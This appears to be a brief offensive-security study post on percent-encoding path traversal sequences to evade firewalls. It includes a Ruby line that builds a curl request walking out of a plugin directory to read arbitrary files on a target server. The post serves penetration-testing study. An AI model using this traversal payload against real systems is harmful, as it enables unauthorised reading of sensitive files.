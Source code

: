 ```yaml
---
layout: post
title: Directory Traversal Percent Encoding
titledate: 08/28/23
tags: ["infosec","offsec", "web", "dir_traversal"]
---
```


It may be necessary to % encode the path traversal in the URI request in order to bypass firewalls 

I edited my useless [script](https://github.com/ST4RGUARD/OSCP/blob/master/dir_traversal/plugin_pwn.rb) to illustrate this point 

```ruby
cmd = "curl http://#{ARGV[0]}/public/plugins/#{line}/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/#{ARGV[1]}"
```
